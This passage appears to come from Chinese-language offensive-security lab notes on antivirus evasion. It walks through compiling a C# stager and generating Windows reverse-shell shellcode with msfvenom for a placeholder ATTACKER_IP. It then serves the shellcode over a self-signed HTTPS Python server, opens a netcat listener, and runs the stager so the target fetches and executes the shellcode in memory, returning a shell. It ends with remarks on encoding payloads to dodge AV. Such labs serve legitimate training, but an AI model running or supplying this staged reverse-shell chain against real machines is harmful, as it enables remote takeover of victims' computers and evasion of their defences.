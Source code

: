 **编译 (Windows)**:

PowerShell

```
PS C:\> csc staged-payload.cs
```

**使用 Stager 运行反向 Shell**:

1. **生成最终 Shellcode (`shellcode.bin`)**:
    
    Bash
    
    ```
    user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d' # 移除常见坏字节
    ```
    
2. **创建自签名证书并启动 HTTPS 服务器**:
    
    Bash
    
    ```
    user@AttackBox$ openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
    user@AttackBox$ python3 -m http.server --bind 0.0.0.0 443 --cgi # (Simplified, for HTTPS see original complex command or use a proper server)
    # 原文 Python HTTPS 服务器命令:
    # python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
    ```
    
    (确保 `shellcode.bin` 在服务器的根目录下)
3. **设置 Netcat 监听器**:
    
    Bash
    
    ```
    user@AttackBox$ nc -lvnp 7474
    ```
    
4. 在目标 Windows 机器上执行编译好的 `staged-payload.exe`。它应连接到 HTTPS 服务器，下载 `shellcode.bin`，并在内存中执行，最终在攻击机上获得反向 Shell。

---

#### 使用 MSFVenom 进行编码与加密 (Encoding and Encryption with MSFVenom)

Msfvenom 等工具提供编码和加密功能，旨在改变 Shellcode 的字节模式以尝试规避 AV 检测。然而，由于这些是公开工具的标准化功能，AV 厂商通常能够识别和检测这些经过简单编码或加密的载荷。
